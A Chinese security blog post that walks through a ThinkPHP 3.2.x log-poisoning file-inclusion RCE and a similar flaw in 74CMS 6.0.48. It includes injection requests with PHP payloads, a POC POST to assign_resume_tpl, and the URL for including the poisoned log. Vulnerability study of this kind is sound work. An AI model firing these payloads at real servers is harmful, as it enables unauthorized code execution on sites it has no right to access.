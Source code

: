 ```yaml
---
layout: post
title: "【网络安全】ThinkPHP 3.2.X RCE学习"
subtitle: "骑士CMS文件包含漏洞"
date: 2024-08-08
author: "3thernet"
header-img: "img/bg-touhou-1.jpg"
tags: []
---
```


## 0x01 ThinkPHP 3.2.X RCE

攻防遇到了很多的 ThinkPHP 3.2.x，本以为低版本TP有 RCE 可以打，但读了网上的文章后才发现并不是TP本身的问题，而是 assign 方法的第一个变量可控会造成任意文件包含，从而导致 RCE（换言之，一般是使用TP框架的程序员自己写控制器时写出了洞）。ThinkPHP 在`/Application/Runtime/Logs/Home/年份_月份_日期.log`下会记录 model 错误，构造特定的请求写入日志文件，然后用任意文件包含引入日志文件即可造成 RCE. 

在 debug 模式下，日志文件会直接泄露出来，如果没开 debug 模式也可尝试盲打。（注意 Application 可能修改为其他名称，比如data，可以尝试 fuzz）

```
若开启debug模式日志会到：\Application\Runtime\Logs\Home\下
若未开启debug模式日志会到：\Application\Runtime\Logs\Common\下
```

用 Burp 写入`/index.php?m=--><?=phpinfo();?>`（不要直接用浏览器写入）

日志如下：

![](/img/2024-08-08-thinkphp32x-rce/1.png)

自行搭建靶场测试请参考：

- [ThinkPHP3.2.X通用漏洞复现 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12773)
- [炒冷饭之ThinkPHP3.2.X RCE漏洞分析 - sevck - 博客园 (cnblogs.com)](https://www.cnblogs.com/sevck/p/15012267.html)
- [【漏洞通报】ThinkPHP3.2.x RCE漏洞通报-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1855060)

## 0x02 骑士CMS RCE

骑士CMS 6.0.48 存在一处任意文件包含漏洞，与 ThinkPHP 3.2.X 通用RCE有些相似。

漏洞在于 assign_resume_tpl 方法：

```php
public function assign_resume_tpl($variable,$tpl){
        foreach ($variable as $key => $value) {
            $this->assign($key,$value);
        }
        return $this->fetch($tpl);
}
```

fetch 方法在`$tpl`不存在时会调用E方法将 payload 写入 log：

```php
// 模板文件不存在直接返回
if(!is_file($templateFile)) E(L('_TEMPLATE_NOT_EXIST_').':'.$templateFile);
```

fetch 方法还会调用`Hook:listen('view_parse', $params)`将模板文件解析与编译生成缓存文件`xxx.php`，然后调用Load加载这个编译好的缓存文件。

详细攻击链分析：

- [骑士 CMS 远程命令执行分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/8520)

- [骑士cms从任意文件包含到远程代码执行漏洞分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/8596)

`$tpl`变量可控，因此可以先通过 assign_resume_tpl 的 fetch 方法将 payload 写入log，再通过 assign_resume_tpl 方法包含存在 payload 的 log 文件。

也可以一步到位，直接通过 assign_resume_tpl 方法包含木马文件。根据上面两篇文章，官方的补丁包只是阻止 payload 写入日志，并没有阻止任意文件包含。（过去这么久应该修复了吧？）

POC:

```
POST /index.php?m=home&a=assign_resume_tpl HTTP/1.1
Host:

variable=1&tpl=<?php phpinfo(); ob_flush();?>
```

访问`http://example.com/index.php?m=home&a=assign_resume_tpl&variable=1&tpl=data/Runtime/Logs/Home/年份_月份_日期.log`即可看到回显。注意由于 fetch 中包含`ob_get_clean`，所以必须要包含`ob_flush();`。

如果POC出现404，那么大概率是被修复了。

写马参考：

- [74cms 6.0.20版本文件包含漏洞复现_74cms v6 源码-CSDN博客](https://blog.csdn.net/csdnmmd/article/details/117689687)

# 
